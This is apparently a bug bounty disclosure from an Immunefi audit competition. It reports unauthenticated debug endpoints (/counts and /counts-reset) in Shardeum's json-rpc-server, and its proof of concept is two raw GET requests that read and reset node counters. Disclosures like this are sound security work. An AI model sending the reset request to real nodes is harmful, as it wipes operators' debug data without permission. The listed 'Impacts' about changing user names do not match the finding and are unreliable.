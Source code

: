 # #35598 \[W\&A-Insight] Access to debug endpoints without any protection

**Submitted on Sep 30th 2024 at 10:56:08 UTC by @blocksmith0 for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35598
* **Report Type:** Websites and Applications
* **Report severity:** Insight
* **Target:** https://github.com/shardeum/json-rpc-server/tree/dev
* **Impacts:**
  * Changing non-sensitive details of other users (including modifying browser local storage) without already-connected wallet interaction and with up to one click of user interaction: Changing the first/last name of user, Enabling/disabling notifications

## Description

## Vulnerability Details

The following debug endpoints are available without any kind of protection like authentication which enables general public to get access to these endpoints.

This enables anyone to wipe out debug data of any archiver/node on the network.

GET \`/counts\` this endpoint emits the nestedCounters report as an array.

GET \`/counts-reset\` this endpoint resets the internal nestedCounters object.

## Proof of Concept

## Proof of Concept

To get nestedCounters do GET request to the archiver/node.

http://127.0.0.1:4000/counts

Request:

\`\`\` GET /counts HTTP/1.1 Host: 127.0.0.1:4000 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.7 Accept-Encoding: gzip, deflate Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ar;q=0.7 Connection: close \`\`\`

To reset or clear internal nestedCounters do the following GET request to the archiver/node.

http://127.0.0.1:4000/counts-reset

\`\`\` GET /counts-reset HTTP/1.1 Host: 127.0.0.1:4000 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.7 Accept-Encoding: gzip, deflate Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ar;q=0.7 Connection: close \`\`\`
